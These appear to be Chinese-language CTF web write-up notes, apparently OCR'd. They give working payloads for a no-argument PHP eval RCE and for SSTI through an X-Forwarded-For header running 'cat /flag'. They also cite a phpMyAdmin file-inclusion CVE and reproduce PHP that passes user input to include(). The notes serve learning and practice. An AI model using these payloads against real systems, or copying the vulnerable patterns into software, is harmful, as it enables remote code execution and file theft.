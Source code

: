 ```php

```

```
1.需要以GET形式传入一个名为exp的参数。如果满足条件会执行这个exp参数的内容。
2.过滤了常用的几个伪协议，不能以伪协议读取文件。
3.(?R)引用当前表达式，后面加了?递归调用。只能匹配通过无参数的函数。
4.正则匹配掉了et/na/info等关键字，很多函数都用不了。
5：eval($_GET['exp']); 典型的无参数RCE
```

payload:

```
?exp=readfile(next(array_reverse(scandir(current(localeconv())))));
```



看这里

https://yanmie-art.github.io/2020/10/30/php-rce%E4%B9%8B%E6%97%A0%E5%8F%82%E6%95%B0%E8%AF%BB%E6%96%87%E4%BB%B6/

## [BJDCTF2020]The mystery of ip

SSTI模板诸如，原本以为是sql注入

payload:

```
X-Forwarded-For: {{system('cat /flag')}}
```



https://blog.csdn.net/weixin_44622228/article/details/105624394

https://blog.csdn.net/qq_41628669/article/details/106133129

## [GWCTF 2019]我有一个数据库

phpmyadmin 4.8.1  CVE-2018-12613  任意文件包含

## [BJDCTF2020]ZJCTF，不过如此

```php
 <?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>

```
